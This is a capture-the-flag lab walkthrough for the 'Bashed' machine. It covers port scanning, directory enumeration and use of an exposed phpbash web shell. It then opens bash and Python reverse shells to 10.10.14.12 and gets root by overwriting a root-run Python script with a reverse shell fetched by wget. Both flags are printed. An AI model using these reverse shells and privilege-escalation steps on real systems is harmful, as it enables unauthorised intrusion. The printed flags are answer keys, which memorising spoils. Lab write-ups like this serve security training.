 #phpbash #sudoer 

# Reconnaissance

```bash
# Automatic tools
# nmapAutomator (https://github.com/21y4d/nmapAutomator)
cd /usr/local/bin/
sudo ./nmapAutomator.sh --host 10.10.10.68 --type All
# Nmap
nmap -sV -sC -A 10.10.10.68 -Pn
```

```txt
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.02 seconds
```

# Enumeration
## Enumerate on 80

![[Bashed-1.png]]

we access the website on port 80 and find there is a page said: 
```txt
phpbash helps a lot with pentesting. I have tested it on multiple different servers and it was very useful. I actually developed it on this exact server!
```


```bash
gobuster dir -e -u http://10.10.10.68 -w /usr/share/wordlists/dirb/big.txt -t 20
```

```txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2022/06/09 10:49:42 Starting gobuster in directory enumeration mode
===============================================================
http://10.10.10.68/.htpasswd            (Status: 403) [Size: 295]
http://10.10.10.68/.htaccess            (Status: 403) [Size: 295]
http://10.10.10.68/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
http://10.10.10.68/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
http://10.10.10.68/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
http://10.10.10.68/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
http://10.10.10.68/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]    
http://10.10.10.68/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]   
http://10.10.10.68/server-status        (Status: 403) [Size: 299]                                 
http://10.10.10.68/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
                                                                                                   
===============================================================
2022/06/09 10:54:54 Finished

```

CSS folder:

![[Bashed-3.png]]

PHP Folder:

![[Bashed-2.png]]

dev folder:

![[Bashed-4.png]]

From the website we know github phpbash program ( https://github.com/Arrexel/phpbash/blob/master/phpbash.php )

phpbash is a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible. The design is based on the default Kali Linux terminal colors, so pentesters should feel right at home.

```bash
# access this url
http://10.10.10.68/dev/phpbash.php
```

![[Bashed-5.png]]

These web pages are giving interface to communicate with terminal of server. This means we can get reverse shell from this webpage by simply executing the script.

# Exploitation
## Exploit by phpbash.php
we google "reverse shell cheat sheet" , use https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```bash
nc -lvp 3333
# try use bash first
bash -i >& /dev/tcp/10.10.14.12/3333 0>&1
# we will find bash was failed, then we try use python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![[Bashed-6.png]]

very nice, we get the web shell.

## get user flag
```bash
cat /home/arrexel/user.txt
# flag
2c281f318555dbc1b856957c7147bfc1
```
![[Bashed-7.png]]


# Privilege Escalation
First we try to get info of our current privilege:

```bash
sudo -l
```

![[Bashed-8.png]]

```txt
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

This means the www-data user can run commands as scriptmanager user. Let’s try to access scriptmanager account shell from www-data with command given below.

```bash
sudo -u scriptmanager /bin/bash
id
whoami
# Use python script for TTY upgrade the shell
python -c 'import pty; pty.spawn("/bin/bash");'
```

![[Bashed-9.png]]

```bash
cd /
ls -al

```

![[Bashed-10.png]]

```bash
cd scripts
ls -al
cat test.py
```
![[Bashed-11.png]]

```txt
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```
we will find test.py will write testing 123 to test.txt and we will find the privilege of test.txt is root. Seems like a Root priviege program will run test.py. If we could add reverse shell command to this python script, we will get the root shell.

Now on the other machine shell we will run wget command to download reverse shell code in the machine.

```bash
# create a http server
python3 -m http.server 80

```

we google "reverse shell cheat sheet" ,  and use [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```python
nano test.py
# write the python script
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
# rm test.py and download test.py
rm test.py
wget http://10.10.14.12/test.py
# build up a listener
nc -lvp 4444
```

![[Bashed-12.png]]

## Get root flag
Ok, we wait one minute and we will get the root reverse shell.

```bash
id
whoami
hostname
cat /root/root.txt
# flag
cc4f0afe3a1026d402ba10329674a8e2
```

![[Bashed-13.png]]